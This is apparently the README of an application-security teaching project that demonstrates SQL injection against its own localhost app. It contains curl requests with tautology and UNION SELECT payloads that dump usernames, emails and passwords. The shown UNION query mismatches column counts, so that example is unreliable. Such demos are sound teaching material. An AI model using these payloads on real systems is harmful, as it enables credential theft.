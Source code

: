 # appsec-validation-injection-sql

## Database model

http://localhost:8080/h2-console/login.jsp?jsessionid=6350ae370854407184e14377bbff4db7

```sql
INSERT INTO users (id, username, email, password) VALUES
  (1, 'admin', 'admin@site.internal', '(;C\b6Wva`9{:LYq'),
  (2, 'user1', 'user1@site.external', '[P:n@dzG?LF"T*2W'),
  (3, 'user2', 'user2@site.external', 'u_3AS8k%cxRN~u~q');
```

```sql
INSERT INTO categories (id, slug, title, description) VALUES
  (1, 'post-a', 'Post A', 'Description A'),
  (2, 'post-b', 'Post B', 'Description B'),
  (3, 'post-c', 'Post C', 'Description C');
```

## Retrieve post by user

The following request would retrieve the categories written by 'user1' (id = 2) which have the value 'post-a' as slug:

```bash
curl --request GET \
  --url http://localhost:8080/categories/post-a \
  --header 'referer: https://wikipedia.org'
```

The application would translate this request into the SQL query that is shown next:

```sql
SELECT id, slug, title
FROM categories, user_posts
WHERE categories.id = user_posts.post_id
  AND user_posts.user_id = 2
  AND slug = 'post-a'
```

As it can be seen, the result is a simple list with the information of post 'post-a':

![appsec-validation-injection-sql-retrieve-post-by-user.png](README/appsec-validation-injection-sql-retrieve-post-by-user.png)

## Retrieve all categories

Since the application was vulnerable to SQL injection, the original query could be altered to retrieve all categories written by any user:

```bash
curl --request GET \
  --url http://localhost:8080/categories/post-a%27%20OR%20%271%27%20=%20%271 \
  --header 'referer: https://wikipedia.org'
```

This request would be translated into the following SQL query:

```sql
SELECT id, slug, title
FROM categories, user_posts
WHERE categories.id = user_posts.post_id
  AND user_posts.user_id = 2
  AND slug = 'post-a'
  OR '1' = '1'
```

As a result, all categories stored in the database would be returned to the user:

![appsec-validation-injection-sql-retrieve-all-categories.png](README/appsec-validation-injection-sql-retrieve-all-categories.png)

## Retrieve all users

This type of attack could be used to even retrieve sensitive information about the users registered into the application, emails and passwords included:

```bash
curl --request GET \
  --url 'http://localhost:8080/categories/post-a%27%20UNION%20SELECT%20id,%20username,%20email,%20password%20FROM%20users%20WHERE%20%271%27=%20%271' \
  --header 'referer: https://wikipedia.org'
```

This request would generate a SQL query that would join the `categories` and `users` tables:

```sql
SELECT id, slug, title
FROM categories, user_posts
WHERE categories.id = user_posts.post_id
  AND user_posts.user_id = 2
  AND slug = 'post-a'
UNION
SELECT id, username, email, password
FROM users
WHERE '1'= '1'
```

As it is shown in the following picture, the attacker would have access to all the credentials stored in the database:

![appsec-validation-injection-sql-retrieve-all-users.png](README/appsec-validation-injection-sql-retrieve-all-users.png)
